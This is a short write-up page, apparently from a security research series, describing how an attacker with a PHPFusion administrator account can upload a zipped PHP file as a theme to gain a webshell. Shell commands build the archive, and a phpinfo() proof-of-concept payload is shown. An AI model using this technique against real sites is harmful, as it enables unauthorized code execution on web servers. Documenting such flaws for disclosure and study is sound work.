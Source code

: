 ```yaml
---
permalink: /b1
---
```

{% raw %}
# B1: PHPFusion trick

Let's imagine that you have obtained an administrator account, either using the Stored XSS (authenticated) or using the POI to SQLi (pre-auth). Now all you have to do is get a shell. There are several options for doing so. However a relatively simple one is to use the functionality to upload a theme.


```
▶ mkdir shell
```

```
▶ echo "<?php phpinfo(); ?>" > shell/theme.php
```

```
▶ zip test.zip shell/theme.php
  adding: shell/theme.php (stored 0%)
```

Then all you have to do is upload your zip file.

![alt text](../captures/b1_0.png "Figure 1: Upload the theme")

![alt text](../captures/b1_1.png "Figure 2: Theme added to theme list")

Your webshell will be accessible through the route <span style="color:red">\<ROOT\>/themes/shell/theme.php</span>

![alt text](../captures/b1_2.png "Figure 3: Webshell")

{% endraw %}